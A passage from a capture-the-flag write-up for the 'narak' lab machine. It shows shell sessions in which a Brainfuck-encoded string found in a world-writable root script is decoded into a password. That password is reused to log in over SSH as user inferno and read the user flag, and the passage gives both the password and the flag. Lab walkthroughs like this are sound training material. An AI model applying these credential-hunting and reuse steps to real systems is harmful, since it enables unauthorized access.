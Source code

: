 ## Lateral move (www-data -> inferno)

Enumerating the target will reveal the existence of a script owned by `root` in the `/mnt` directory. The script contains a string encoded in the Brainfuck language.

~~~
www-data@ubuntu:/mnt$ ls -la /mnt
ls -la /mnt
total 16
drwxr-xr-x  3 root   root 4096 Sep 22 04:36 .
drwxr-xr-x 22 root   root 4096 Sep 21 09:56 ..
-rwxrwxrwx  1 root   root  124 Sep 22 04:36 hell.sh
drwxr-xr-x  2 nobody root 4096 Sep 21 11:15 karma
www-data@ubuntu:/mnt$ cat hell.sh
cat hell.sh
#!/bin/bash

echo"Highway to Hell";
--[----->+<]>---.+++++.+.+++++++++++.--.+++[->+++<]>++.++++++.--[--->+<]>--.-----.++++.
~~~

You can use [dcode.fr](https://www.dcode.fr/langage-brainfuck) to decode the message: `chitragupt`. Checking the other users in the `/home` directory reveals the existence of 3 users: `inferno`, `narak` and `yamdoot`. Trying this decoded string (I assumed it could be a password) confirmed that it is `inferno`'s password:

~~~
kali@kali:/data/src$ sshpass -p "chitragupt" ssh inferno@narak.box
Welcome to Ubuntu 18.04 LTS (GNU/Linux 4.15.0-20-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

inferno@ubuntu:~$ id
uid=1002(inferno) gid=1002(inferno) groups=1002(inferno)
~~~

## User flag

The user flag can be found in `inferno`'s home:

~~~
inferno@ubuntu:~$ ls -la
total 28
drwxr-xr-x 3 inferno inferno 4096 Oct  4 09:28 .
drwxr-xr-x 5 root    root    4096 Sep 22 04:35 ..
-rw-r--r-- 1 inferno inferno  220 Sep 22 04:35 .bash_logout
-rw-r--r-- 1 inferno inferno 3771 Sep 22 04:35 .bashrc
drwx------ 2 inferno inferno 4096 Oct  4 09:28 .cache
-rw-r--r-- 1 inferno inferno  807 Sep 22 04:35 .profile
-rw-r--r-- 1 root    root      41 Sep 22 04:37 user.txt
inferno@ubuntu:~$ cat user.txt 
Flag: {5f95bf06ce19af69bfa5e53f797ce6e2}
~~~
